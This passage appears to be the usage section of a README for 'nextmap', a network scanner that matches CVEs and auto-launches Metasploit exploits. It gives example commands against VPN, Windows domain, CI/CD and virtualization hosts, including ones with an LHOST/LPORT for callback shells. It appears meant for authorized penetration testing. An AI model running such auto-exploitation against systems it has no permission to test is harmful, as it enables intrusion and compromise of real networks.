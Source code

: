 
## 🚀 Usage Examples

### Basic Usage (Auto-Exploitation)
```powershell
# Scan network with full 100-exploit database
nextmap.exe -t 192.168.1.0/24 -p 1-10000 --cve-scan --msf-exploit --msf-lhost 192.168.1.100
```

### Category-Specific Scanning

**VPN/Firewall Assessment:**
```powershell
nextmap.exe -t vpn.company.com -p 443,4443,8443,10443 --cve-scan --msf-exploit --msf-dry-run
# Checks: Ivanti, Fortinet, SonicWall, Pulse Secure, F5, Palo Alto
```

**Enterprise Application Testing:**
```powershell
nextmap.exe -t erp.company.com -p 7001,8000,8080,50000 --cve-scan --msf-exploit
# Checks: SAP, Oracle WebLogic, Splunk, Zoho, ColdFusion
```

**Windows Infrastructure Audit:**
```powershell
nextmap.exe -t dc.company.local -p 445,135,3389,587 --cve-scan --msf-exploit
# Checks: PrintNightmare, SMBGhost, EternalBlue, Exchange vulnerabilities
```

**Web Server Assessment:**
```powershell
nextmap.exe -t web.company.com -p 80,443,8080,8443 --cve-scan --msf-exploit
# Checks: Apache, NGINX, Tomcat, IIS, CMS vulnerabilities
```

**CI/CD Pipeline Security:**
```powershell
nextmap.exe -t jenkins.company.com -p 8080 --cve-scan --msf-exploit --msf-dry-run
# Checks: Jenkins, GitLab, container vulnerabilities
```

**Virtualization Infrastructure:**
```powershell
nextmap.exe -t vcenter.company.com -p 443,902 --cve-scan --msf-exploit
# Checks: VMware vCenter, Aria Operations, Workspace ONE
```

### Safe Testing (Dry-Run Mode)
```powershell
# Preview exploits WITHOUT executing them
nextmap.exe -t 10.0.0.0/8 -p 1-65535 --cve-scan --msf-exploit --msf-dry-run --msf-lhost 10.1.1.1
```

### Custom LHOST/LPORT Configuration
```powershell
nextmap.exe -t 192.168.1.100 --cve-scan --msf-exploit --msf-lhost 192.168.1.50 --msf-lport 5555
```

---